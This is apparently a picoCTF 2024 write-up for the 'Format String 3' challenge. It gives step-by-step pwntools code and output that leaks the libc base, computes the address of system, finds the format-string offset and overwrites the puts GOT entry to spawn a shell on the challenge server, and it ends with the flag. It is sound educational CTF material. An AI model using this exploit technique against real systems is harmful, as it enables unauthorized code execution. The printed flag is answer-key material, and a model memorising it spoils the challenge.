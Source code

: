 # Format String 3 - picoCTF 2024

## Description
This program doesn't contain a win function. How can you win?
Download the binary [here](https://play.picoctf.org/practice/challenge/449?originalEvent=73&page=2).
Download the source [here](https://play.picoctf.org/practice/challenge/449?originalEvent=73&page=2).
Download libc [here](https://play.picoctf.org/practice/challenge/449?originalEvent=73&page=2), download the interpreter [here](https://play.picoctf.org/practice/challenge/449?originalEvent=73&page=2). Run the binary with these two files present in the same directory.
nc rhea.picoctf.net 57040

## My Approach
Let's analyze the `format-string-3.c` file to get a grasp of the program. The program's output look particularly like this:
```
Howdy gamers!
Okay I'll be nice. Here's the address of setvbuf in libc: 0x74749008a3f0
```
From the `format-string-3.c` file, the value `0x74749008a3f0` is the address of the `setvbuf`. This address will change everytime we reconnect to the challenge. One noticeable variable is the string `normal_string` has the value "/bin/sh", which can help us easily trigger `system("/bin/sh");` in C program. All we have to do is somehow changing the `puts` function into `system` function. We can do this by overwrite the GOT entry for the `puts` function into `system` function. We will perform this by exploiting format string vulnerability. To read more about this vulnerability, please check this [book](chrome-extension://kdpelmjpfafjppnhbloffcjpeomlnpah/https://cs155.stanford.edu/papers/formatstring-1.2.pdf)

### Finding the GOT address of the `puts` function
There are many ways to find it. The fastest way is to use command `objdump -d format-string-3` piped with command `grep puts` to disassemble all the functions used in `format-string-3` and find the `puts` function:
```
$ objdump -d format-string-3 | grep puts
0000000000401080 <puts@plt>:
  401084:       f2 ff 25 8d 2f 00 00    bnd jmp *0x2f8d(%rip)        # 404018 <puts@GLIBC_2.2.5>
  40121d:       e8 5e fe ff ff          call   401080 <puts@plt>
  4012f2:       e8 89 fd ff ff          call   401080 <puts@plt>
```
The GOT entry for `puts` is right before the `<puts@GLIBC_2.2.5>`, which is `0x404018`. You can also use tools like `gdb` or `ghidra` to disassemble the `puts` function but I found this way more convenient. You can also use `python3` to find it:
```
# elf = ELF("format-string-3")
# puts_got = elf.got['puts']
# print(hex(puts_got))
```

### Finding the base address of libc
Some functions like `setvbuf` and `system` are located in libc. However, the location of libc in memory is determined by runtime, which explains why we have different address of `setvbuf` each time we reconnect. This process (called ASLR) is used to defend certain type of attacks and the base address of libc changes due to this. To find it, we can subtract the address value of `setvbuf` we get from the server with the actual address of `setvbuf` in libc file. Finding this base address isn't hard but first we have to find the address of `setvbuf` in libc file:
```
$ objdump -d libc.so.6 | grep setvbuf
000000000007a3f0 <_IO_setvbuf@@GLIBC_2.2.5>:
```
Now we can calculate the base address of libc. Remember, this base address changes everytime we reconnect to the server. Using `pwn` library can help the tasks flow smoother:
```
#!/usr/bin/env python3

from pwn import *

context.arch = 'amd64'

def conn():
    # if args.LOCAL:
    #     r = process([exe.path])
    #     if args.DEBUG:
    #         gdb.attach(r)
    # else:
    r = remote("rhea.picoctf.net", 57040)

    return r
p = conn()
p.recvline()
setvbuf_mem = int(p.recvline()[-13:-1],16) # Extracting the address of setvbuf in server's memory and convert it into integer
setvbuf_libc = 0x07a3f0
libc_base = setvbuf_mem-setvbuf_libc
```

### Calculating the address of `system` in memory
To calculate the actual address of `system` from the server, we can add the address of `system` from libc file to the base address of libc. First, the address of `system` in libc file can be found using the same way (in this case, it's 0x4f760):
```
$ objdump -d libc.so.6 | grep system
000000000004f760 <__libc_system@@GLIBC_PRIVATE>:
   4f767:       74 07                   je     4f770 <__libc_system@@GLIBC_PRIVATE+0x10>
```
Now, we calculate:
```
system_libc = 0x4f760
system_mem = libc+system_libc
```

### Overwriting the GOT entry for `puts` into `system`
We're gonna use `fmtstr_payload` to overwrite the value of the GOT entry for `puts`. To do this, we first need to find the offset value. By spamming `%p`, we can see the offset:
```
p=conn()
p.sendline(b'%p.'*50)
p.recvline()
p.recvline()
print(p.recvline())
```
And, the output is like this:
```
python3 solution.py
[+] Opening connection to rhea.picoctf.net on port 52872: Done
b'0x796376407963.0xfbad208b.0x7ffdc650ab60.0x1.(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.\n'
[*] Closed connection to rhea.picoctf.net port 52872
```
Until the string `%p.` are repeated (which is 0x70252e in hex), there are 38 chunks of `%p.` shows different value. We can adjusting the number repeated downto 38:
```
p=conn()
p.sendline(b'%p.'*38)
p.recvline()
p.recvline()
print(p.recvline())
```
And, the output is like this:
```
python3 solution.py
[+] Opening connection to rhea.picoctf.net on port 52872: Done
b'0x78b5b22a6963.0xfbad208b.0x7ffe74629b80.0x1.(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).0x70252e70252e7025.\n'
[*] Closed connection to rhea.picoctf.net port 52872
```
The offset is 38. Put everything together, we can send our payload like this:
```
payload = fmtstr_payload(38, {puts_got: system_mem})
p.sendline(payload)
p.sendline(b"ls")
for i in range(10):
    print(p.recvline())
```
The output looks like this:
```
 python3 solution.py
[*] '/home/zedttxj/test/format-string-3'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x3ff000)
    RUNPATH:  b'.'
0x404018
[+] Opening connection to rhea.picoctf.net on port 52872: Done
b'                                                                                               c               \x8b                                                         \xf0            \x01                       \x00
                                                         \x00aaaaba\x18@@Makefile\n'
b'artifacts.tar.gz\n'
b'flag.txt\n'
b'format-string-3\n'
b'format-string-3.c\n'
b'ld-linux-x86-64.so.2\n'
b'libc.so.6\n'
b'metadata.json\n'
b'profile\n'
```
We successfully execute another `/bin/sh` shell. We also listed all the files in the current directive using `ls` and found out `flag.txt`. By adding `p.interactive()` at the end of the code, you can interact with the shell.
```
p.sendline(payload)
p.interactive()
```
picoCTF{G07_G07?_cf6cb591}
